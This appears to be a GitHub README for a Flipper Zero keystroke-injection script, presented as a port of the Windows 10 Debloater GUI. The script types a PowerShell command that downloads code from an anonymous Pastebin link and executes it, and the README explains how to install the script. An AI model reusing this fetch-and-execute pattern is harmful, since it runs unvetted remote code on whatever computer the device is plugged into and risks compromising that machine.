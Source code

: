 # Windows 10 Debloater GUI Port for Flipper Zero Bad Keyboard

![Debloater GUI Logo](https://raw.githubusercontent.com/levimac-03/flipper-zero-win10debloater-port/main/Debloater%20GUI.png)

This repository contains a script designed for the Flipper Zero Bad Keyboard that executes the Windows 10 Debloater GUI, originally developed by Richard Newton (Sycnex). 

## Overview

The script automates the execution of a PowerShell command that downloads and runs the Windows 10 Debloater GUI from a specified URL. This tool helps users remove unwanted bloatware and optimize their Windows 10 systems.

## Script Description

The script performs the following actions:

1. **Delay**: Waits for 500 milliseconds to ensure the system is ready.
2. **Open Run Dialog**: Simulates pressing `GUI + R` to open the Run dialog.
3. **Delay**: Waits for another 500 milliseconds.
4. **Execute Command**: Types a PowerShell command into the Run dialog that downloads and executes the Debloater GUI script from a specified Pastebin URL.
5. **Submit Command**: Presses `ENTER` to execute the command.

### Script.txt

```plaintext
REM Credit: @Levi-M-2024 @Sycnex-2021

DELAY 500
GUI r
DELAY 500
STRING powershell -Command "iex (Invoke-WebRequest -Uri 'https://pastebin.com/raw/854vZ336' -UseBasicP).Content"
ENTER
```

## Installation

**Copy the Script**: Place the script file into the "Bad Keyboard" folder on your Flipper Zero SD card. Ensure your device is running Xtreme firmware.

**Restart Your Flipper Zero**: After copying the file, restart your Flipper Zero to activate the script.

## Usage

Once installed, the script can be executed via the Flipper Zero Bad Keyboard interface. It will automatically open a PowerShell window and run the Debloater GUI.

## Contributing

Contributions are welcome! For details on contributing, please see our [CONTRIBUTING.md](CONTRIBUTING.md).

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Acknowledgements

- Richard Newton (Sycnex) for the original Windows 10 Debloater GUI.
- Levi-M-2024 for porting the script to Flipper Zero.
- The Flipper Zero community for their ongoing support and contributions.

## Contact

For questions or support, please open an issue on GitHub or contact [your-email@example.com](mailto:your-email@example.com).
